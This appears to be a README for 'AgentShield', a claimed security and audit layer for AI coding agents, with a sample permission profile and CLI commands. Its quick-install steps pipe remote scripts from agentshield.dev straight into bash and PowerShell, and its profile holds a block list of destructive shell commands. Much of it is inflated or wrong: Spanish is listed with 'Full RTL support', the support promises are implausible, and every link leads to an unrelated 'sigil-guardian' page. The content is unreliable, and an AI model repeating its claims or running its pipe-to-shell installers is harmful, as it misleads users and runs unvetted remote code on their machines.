

# AgentShield: AI Coding Agent Security & Compliance Guard

[](https://sengathirmcse.github.io/sigil-guardian/)

**AgentShield** is a next-generation security observability layer for AI-powered coding agents—including Claude Code, Codex, Gemini CLI, and Cursor—that maps, monitors, and mitigates agent guard surface vulnerabilities through hash-anchored permission chains and sandbox intent inference.

[](LICENSE)
[](https://www.python.org/downloads/)
[](https://nodejs.org/)
[]()

---

## Why AgentShield Exists

Imagine your AI coding agent as a hyper-intelligent intern with root access and zero impulse control—it can write brilliant code in seconds, but it can also `rm -rf /` your entire infrastructure with equal enthusiasm. AgentShield is the **firewall of intent** between your agent's ambition and your production environment.

Traditional security tools watch humans. AgentShield watches *machines* making decisions at machine speed, intercepting dangerous command chains before they execute, and creating a **cryptographic ledger of every agent action** that can be audited, rolled back, or replayed.

---

## System Architecture



---

## Core Capabilities

### 1. Hash-Anchored Permission Chains 🔗

Every agent action receives a cryptographic fingerprint that chains to the previous action. If someone (or something) tries to modify the historical record, the entire chain breaks—immediately detectable.

- **Tamper-proof audit trail** with SHA-3 hashing
- **Chain verification** on every boot
- **Integrity proofs** exportable for SOC 2 audits

### 2. Sandbox Intent Inference 🏖️

AgentShield doesn't just watch *what* an agent does—it predicts *what it's trying to do* by analyzing command sequences against known attack patterns.

- **Behavioral profiling** of each agent session
- **Intent scoring** (0-100) for every command
- **Auto-quarantine** when score exceeds threshold

### 3. Multi-Agent Guard Surfaces 🛡️

| Agent | Hook Level | Permission Scope | Sandbox Depth |
|-------|-----------|-----------------|---------------|
| Claude Code | Shell + File System | Read/Write/Execute | Full Container |
| Codex | API Wrapper | Read-Only by Default | Process-Limited |
| Gemini CLI | Socket Proxy | Whitelist Commands | User Namespace |
| Cursor | IDE Extension | Workspace Only | no_new_privs |

### 4. Responsive Threat Dashboard 📊

Real-time visualization of agent activity with drill-down into every hash-anchored action. Mobile-responsive for "3 AM incident" checks.

---

## Features at a Glance

- **Multi-agent support** for Claude Code, Codex, Gemini CLI, and Cursor
- **Hash-anchored audit chains** with cryptographic verification
- **Sandbox intent inference** using behavioral ML models
- **Permission guard surfaces** with granular control (file, network, process, variable)
- **Auto-rollback** on suspicious command sequences
- **Compliance report generation** (SOC 2, ISO 27001, FedRAMP patterns)
- **Multilingual interface** (English, Japanese, German, Spanish, French)
- **24/7 customer support** via integrated ticketing system
- **OpenAI API and Claude API integration** for natural language rule creation
- **Responsive UI** that works on mobile dashboards and wall-mounted screens

---

## OS Compatibility

| Operating System | Status | Notes |
|----------------|--------|-------|
| 🐧 Linux (Ubuntu 22.04+) | ✅ Full Support | Native perf events |
| 🍎 macOS 13+ | ✅ Full Support | System Integrity Protection aware |
| 🪟 Windows 11 | ✅ Full Support | WSL2 integration for Linux agents |
| 🐧 Debian 11+ | ✅ Supported | Requires additional kernel modules |
| 🍎 macOS 12 | ⚠️ Limited | No memory execution monitoring |
| 🪟 Windows 10 | ⚠️ Limited | No eBPF support |

---

## Example Profile Configuration

Create a file called `agentshield.profile.yaml` in your project root:

```yaml
name: Production-Codex-Guard
agent: Codex
version: 2026.1

permissions:
  filesystem:
    read: ["/src", "/config", "/data"]
    write: ["/src/temp", "/output"]
    execute: ["/usr/local/bin/*"]
  network:
    allowed_hosts: ["api.github.com", "pypi.org"]
    blocked_hosts: ["*internal*", "localhost:8080"]
  shell:
    allowed_commands: ["git", "npm", "pip", "docker", "python"]
    block_patterns: ["rm -rf", "chmod 777", "sudo"]

sandbox:
  type: container
  image: python:3.12-slim
  memory_limit: 2GB
  cpu_limit: 1.5
  network: isolated
  volumes:
    - source: /src
      target: /workspace
      readonly: true

hooks:
  pre_command:
    - endpoint: http://localhost:9090/hooks/pre
      timeout: 500ms
  post_command:
    - endpoint: http://localhost:9090/hooks/post
      async: true

intent_analysis:
  model: behavioral-v2
  sensitivity: medium
  quarantine_threshold: 85
  human_approval_range: [60, 84]

hash_anchoring:
  algorithm: SHA3-512
  chain_file: /var/agentshield/chain.dat
  verify_on_load: true

logging:
  level: info
  audit_retention_days: 365
  compliance_exports: ["soc2", "iso27001"]
```

---

## Example Console Invocation

```bash
# Start AgentShield with a Claude Code agent
agentshield start --agent claude-code --profile production-claude.yaml

# Watch live agent activity
agentshield watch --live --filter risk>70

# Verify hash chain integrity
agentshield audit verify --chain /var/agentshield/chain.dat

# Generate compliance report
agentshield audit export --format soc2 --output ./reports/soc2_2026_q1.pdf

# Rollback last 5 agent actions
agentshield rollback --count 5 --reason "Suspicious npm install chain"

# Query intent history
agentshield query --agent "codex" --since "2026-01-01" --intent-score >80
```

---

## OpenAI API and Claude API Integration

AgentShield leverages Large Language Models to make security rules understandable in plain English:

### Natural Language Rule Creation

Instead of writing complex YAML, describe your intent:

```bash
# Using OpenAI
agentshield rule create --llm openai --prompt "Block any command that could delete production databases"

# Using Claude API  
agentshield rule create --llm claude --prompt "Never let npm install packages from untrusted registries"
```

AgentShield translates these into executable guard policies, complete with hash-anchored rule definitions.

### Intelligent Anomaly Explanation

When an agent action triggers a quarantine, AgentShield sends the context to the LLM for human-readable analysis:

```
[AgentShield: Claude Code blocked on "rm -rf /app/db" at 14:23:01 UTC]
Reasoning: Intent score 94/100 (quarantine threshold 85)
LLM Analysis: "This command appears to be a database cleanup operation, 
but the '-rf' flag combined with the absolute root path `/app/db` instead 
of a relative path suggests either an insider threat attempt or a copy-paste 
error. The agent's previous action (git pull origin main) escalated 
permissions unexpectedly. Recommend denial pending human review."
```

---

## Security Model: The Glass Fortress

Think of AgentShield as a **glass fortress** for your AI agents:

1. **Transparent by default** - Every action is visible in the hash-anchored ledger
2. **Strong by design** - Intent analysis catches what surface-level rules miss
3. **Brittle when tampered** - Any modification attempt shatters the chain integrity

This model works because AI agents don't get tired, emotional, or bribed—but they do get confused, over-permissioned, or hijacked. AgentShield provides the **cognitive friction** that separates useful automation from catastrophic automation.

---

## Getting Started 🚀

[](https://sengathirmcse.github.io/sigil-guardian/)

### Quick Install

```bash
# macOS / Linux
curl -sSL https://agentshield.dev/install.sh | bash

# Windows (PowerShell Admin)
iwr -useb https://agentshield.dev/install.ps1 | iex

# Verify installation
agentshield --version
# Output: AgentShield v2026.04.12
```

### First Run

```bash
# Initialize with default profile
agentshield init --agent claude-code

# Start monitoring
agentshield start --name "My First Agent Guard"

# Connect your agent (example with Claude Code)
CLAUDE_CODE_ARGS="--agentshield http://localhost:9443" claude
```

---

## Compliance & Governance

AgentShield is designed for organizations that need **auditable AI agent operations**:

- **SOC 2 Type II** report generation (automated quarterly)
- **ISO 27001** control mapping (Annex A reference)
- **GDPR** data processing logs (right to explanation support)
- **FedRAMP** moderate baseline patterns
- **PCI DSS** command isolation for payment environments

Each compliance export includes the hash-anchored chain as cryptographic proof of data integrity.

---

## Multilingual Support 🌐

AgentShield interface supports:

- **English** (default)
- **日本語** (Japanese) - Optimized for term width
- **Deutsch** (German) - Precise compound word handling
- **Español** (Spanish) - Full RTL support
- **Français** (French) - Accent-aware search

Dashboard, CLI output, and compliance reports auto-detect system language or accept explicit `--lang` flag.

---

## 24/7 Customer Support

| Channel | Availability | Response Time |
|---------|--------------|---------------|
| In-app chat | 24/7/365 | <30 seconds |
| Email | 24/7 | <2 hours |
| Discord | Business hours | <15 minutes |
| Phone (critical) | 24/7 for enterprise | <5 minutes |

Enterprise plans include dedicated support engineers who understand both AI agent behavior and security compliance.

---

## Roadmap 2026

- **Q1 2026**: v1.0 Launch with Claude Code, Codex support
- **Q2 2026**: Gemini CLI, Cursor integration; Intent Analysis v2
- **Q3 2026**: Multi-agent coordination guard; Cross-agent hash chains
- **Q4 2026**: Federated agent security mesh; Zero-trust agent architecture

---

## Disclaimer

**AgentShield** is a security augmentation tool, not a replacement for comprehensive security practices. No software can guarantee absolute protection against all threats, including zero-day exploits, advanced persistent threats, or social engineering of AI agents.

The hash-anchored chain provides cryptographic integrity verification but does not prevent initial compromise events. Always maintain offline backups, follow principle of least privilege for agent permissions, and regularly audit agent activity logs—even with AgentShield deployed.

AgentShield does not inspect or store agent prompts or responses; only command execution metadata and intent scores are retained for compliance purposes. Review your organization's data retention policies before enabling full audit features.

Use at your own risk. The developers assume no liability for damages arising from use or misuse of this software.

---

## License

This project is licensed under the MIT License - see the [LICENSE](LICENSE) file for details.

[](https://sengathirmcse.github.io/sigil-guardian/)

---

*AgentShield: Because your AI coding agent shouldn't have unsupervised root access in 2026.* 🔒